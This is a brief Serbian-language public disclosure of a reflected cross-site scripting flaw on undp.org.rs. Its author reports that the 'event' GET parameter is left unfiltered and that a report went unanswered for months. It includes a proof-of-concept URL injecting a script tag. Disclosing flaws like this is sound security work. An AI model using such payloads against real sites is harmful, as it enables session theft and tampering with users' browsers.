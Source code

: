 ## undp.org.rs - Cross Site Scripting (XSS)

10.03.2017. sam prijavio XSS na sajtu, do danas (11.10.2017.) nisam dobio nikakav odgovor, pa sam odlucio da objavim detalje propuste.

Vrednost iz GET parametra "event" se ne filtrira prilikom prikaza, pa to normalno dovodi do XSS-a.


#### PoC:

```
http://www.undp.org.rs/?event=public.ic"><script>alert(1)</script>&PostRefNo=1658
```
